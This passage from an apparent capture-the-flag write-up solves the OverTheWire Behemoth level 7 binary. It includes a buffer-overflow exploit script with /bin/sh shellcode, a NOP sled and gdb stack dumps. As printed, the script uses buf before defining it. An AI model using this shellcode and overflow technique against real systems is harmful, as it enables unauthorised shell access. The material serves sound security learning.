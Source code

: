 Luckily, there's a bug in the printable check - it only checks the first 511
(0x1ff) bytes of the provided buffer, so we can put our shellcode anywhere in
the buffer after the first 511 bytes, in the space that we overflow. After some
experimentation, we get control of `eip` after 536 bytes.

{% highlight bash %}
behemoth7@melinda:/tmp/purplecandle$ /behemoth/behemoth7 `python -c 'print "A"*536+"BBBB"'`
Segmentation fault
behemoth7@melinda:/tmp/purplecandle$ dmesg
...
behemoth7[931]: segfault at 42424242 ip 0000000042424242 sp 00000000ffffd090 error 14
{% endhighlight %}

Now that we have control, we can begin to write our exploit script.

{% highlight python %}
# exploit.py
import struct

address = 0xdeadbeef
shellcode = 'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'

buf += 'A'*536
buf += struct.pack('<I', address)
buf += '\x90'*1000
buf += shellcode

print buf
{% endhighlight %}

We can use `gdb` to find the address of our buffer on the stack by breaking on
the `strcpy`.

{% highlight bash %}
(gdb) b *0x804868d
Breakpoint 1 at 0x804868d
(gdb) r `python exploit.py`
Starting program: /games/behemoth/behemoth7 `python exploit.py`

Breakpoint 1, 0x0804868d in main ()
(gdb) x/500s $sp
...
0xffffce43:     ""
0xffffce44:     ""
0xffffce45:     "/games/behemoth/behemoth7"
0xffffce5f:     'A' <repeats 200 times>...
0xffffcf27:     'A' <repeats 200 times>...
0xffffcfef:     'A' <repeats 136 times>, "\177\321\377\377", '\220' <repeats 60 times>...
0xffffd0b7:     '\220' <repeats 200 times>...
0xffffd17f:     '\220' <repeats 200 times>...
0xffffd247:     '\220' <repeats 200 times>...
0xffffd30f:     '\220' <repeats 200 times>...
0xffffd3d7:     '\220' <repeats 140 times>, "h\001\001\001\001\201\064$ri\001\001\061\322Rj\004Z\001\342R\211\342jhh///sh/binj\vX\211\343\211\321\231\315\200"
0xffffd491:     ""
0xffffd492:     ""
0xffffd493:     ""
...
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[Behemoth]: http://overthewire.org/wargames/behemoth/
[OverTheWire]: http://overthewire.org
[BinaryNinja]: http://binary.ninja
[IDA]: https://www.hex-rays.com/products/ida/index.shtml
[Hex Rays]: https://www.hex-rays.com/products/decompiler/index.shtml
[pwndbg]: https://github.com/pwndbg/pwndbg
[PEDA]: https://github.com/longld/peda
[Voltron]: https://github.com/snare/voltron
[pwntools]: https://github.com/Gallopsled/pwntools